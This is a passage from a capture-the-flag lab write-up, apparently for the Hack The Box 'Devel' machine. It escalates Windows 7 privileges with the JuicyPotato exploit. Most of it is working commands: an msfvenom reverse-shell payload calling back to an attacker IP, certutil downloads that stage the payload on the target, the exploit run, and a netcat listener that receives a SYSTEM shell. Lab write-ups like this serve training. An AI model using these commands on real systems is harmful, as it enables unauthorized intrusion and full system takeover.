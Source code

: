 Since our current user has _SeImpersonatePrivilege_ privileges we should be able to execute JuicyPotato exploit

1. Download the 32-bit JuicyPotato.exe payload
2. Create MSFvenom reverse shell payload
3. Upload exploit
4. Obtain a system CLSID for Windows 7 Enterprise
5. Run the exploit

We can download the 32-bit JuicyPotato.exe payload from the following Github repository

https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2

Generate the reverse shell payload

```bash
┌──(vagrant㉿kali)-[~/Documents/HTB/windows/devel]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=9002 -f exe -a x86 --platform windows -o privesc.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: privesc.exe

```

Upload the reverse shell payload the JuicyPotato exploit

```bash
# Upload the privesc.exe reverse shell payload
c:\Windows\Temp>certutil -urlcache -f http://10.10.14.9:8000/privesc.exe privesc.exe
certutil -urlcache -f http://10.10.14.9:8000/privesc.exe privesc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

# Upload the JuicyPotato exploit
c:\Windows\Temp>certutil -urlcache -f http://10.10.14.9:8000/jpx86.exe jpx86.exe
certutil -urlcache -f http://10.10.14.9:8000/jpx86.exe jpx86.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

```

Here is the list of Windows 7 Enterprise system CLSID

https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise/

Run the JuicyPotato exploit and get a reverse shell

```bash
# Execute the JuicyPotato exploit on the target
c:\Windows\Temp>.\jpx86.exe -l 1337 -p privesc.exe -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}

# Receive reverse shell on second netcat listener
┌──(vagrant㉿kali)-[~/Documents/HTB/windows/devel]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.9] from (UNKNOWN) [10.129.46.239] 49206
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```
